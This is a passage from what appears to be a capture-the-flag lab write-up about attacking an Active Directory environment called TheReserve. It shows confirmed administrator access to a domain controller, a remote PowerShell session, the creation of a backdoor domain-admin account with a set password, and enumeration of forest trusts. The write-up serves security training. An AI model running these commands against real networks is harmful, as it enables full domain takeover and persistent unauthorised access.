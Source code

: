 We can confirm the exploit worked having access to C$ on the domain controller:
	
 	dir \\corpdc.CORP.THERESERVE.LOC\C$
	 Volume in drive \\corpdc.CORP.THERESERVE.LOC\C$ has no label.
	 Volume Serial Number is AE32-1DF2
	
	 Directory of \\corpdc.CORP.THERESERVE.LOC\C$
		..
	02/14/2023  07:01 PM    <DIR>          Users
	02/14/2023  06:55 PM    <DIR>          Windows
	               4 File(s)      3,177,657 bytes
	               6 Dir(s)  21,795,753,984 bytes free

Finally we can get a shell on the DC as administrator
	
 	Enter-PSSession -computer corpdc.CORP.THERESERVE.LOC
	[corpdc.CORP.THERESERVE.LOC]: PS C:\Users\Administrator\Documents>whoami
	corp\administrator
Now I'm going to add a user to the domain admins:

	net user it.support Password2@ /ADD /DOMAIN
	net group "Domain Admins" it.support /ADD /DOMAIN
Check it out:

	net group "Domain Admins"
	Group name     Domain Admins
	Comment        Designated administrators of the domain
	Members
	-------------------------------------------------------------------------------
	Administrator            it.support

Using the newly created  user we can RDP to corpdc server:

#### Flags submission
We can submit flags 7 and 8.

I know from PingCastle report that a AD forest is in place:

	Reachable domain: bank.thereserve.loc
	Discovered using: thereserve.loc	
	Netbios: BANK	
	Creation: 2022-09-07 20:02:40Z

Using powershell we can inviestigate the trust relation:

	([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())
	 	Name                  : thereserve.loc
		Sites                 : {Default-First-Site-Name}
		Domains               : {bank.thereserve.loc, corp.thereserve.loc, thereserve.loc}
		GlobalCatalogs        : {ROOTDC.thereserve.loc, BANKDC.bank.thereserve.loc, CORPDC.corp.thereserve.loc}
		ApplicationPartitions : {DC=ForestDnsZones,DC=thereserve,DC=loc, DC=DomainDnsZones,DC=thereserve,DC=loc,
		                        DC=DomainDnsZones,DC=corp,DC=thereserve,DC=loc, DC=DomainDnsZones,DC=bank,DC=thereserve,DC=loc}
		ForestModeLevel       : 6
		ForestMode            : Windows2012R2Forest
		RootDomain            : thereserve.loc
		Schema                : CN=Schema,CN=Configuration,DC=thereserve,DC=loc
		SchemaRoleOwner       : ROOTDC.thereserve.loc
		NamingRoleOwner       : ROOTDC.thereserve.loc
		